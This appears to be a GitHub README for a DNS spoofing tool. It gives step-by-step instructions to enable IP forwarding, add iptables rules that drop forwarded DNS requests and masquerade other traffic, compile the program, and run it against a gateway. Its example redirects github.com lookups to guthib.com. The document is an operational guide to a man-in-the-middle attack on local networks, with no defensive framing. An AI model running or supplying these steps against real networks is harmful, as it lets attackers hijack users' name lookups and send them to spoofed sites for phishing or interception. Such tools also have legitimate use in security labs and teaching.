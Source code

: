 # DNS Spoofer

## How to run

### 1. Enable ip forwarding

```sh
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -p udp --sport 53 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP"

#### Example:

If your interface is wlo1 and your gateway is 192.168.0.1 then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 github.com guthib.com
```

This will make it so that all DNS requests to github.com will be redirected to guthib.com.
